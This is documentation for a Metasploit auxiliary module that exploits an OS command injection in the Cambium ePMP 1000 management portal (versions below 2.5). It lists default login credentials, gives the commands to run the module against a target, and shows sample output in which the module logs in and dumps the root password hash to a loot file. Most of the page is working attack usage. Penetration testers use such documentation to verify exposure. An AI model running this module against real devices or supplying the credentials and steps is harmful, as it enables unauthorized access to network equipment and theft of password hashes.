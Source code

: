 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (<v2.5) device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to dump system hashes.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_dump_hashes```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_dump_hashes
msf auxiliary(epmp1000_dump_hashes) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_dump_hashes) > set rport 80
msf auxiliary(epmp1000_dump_hashes) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 2.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] ++++++++++++++++++++++++++++++++++++++
[*] 1.3.3.7:80 - [1/1] - dumping password hashes
root:$1$<hash>:0:0:root:/root:/bin/ash
...
...
[*] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_ePMP_passwd_282393.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
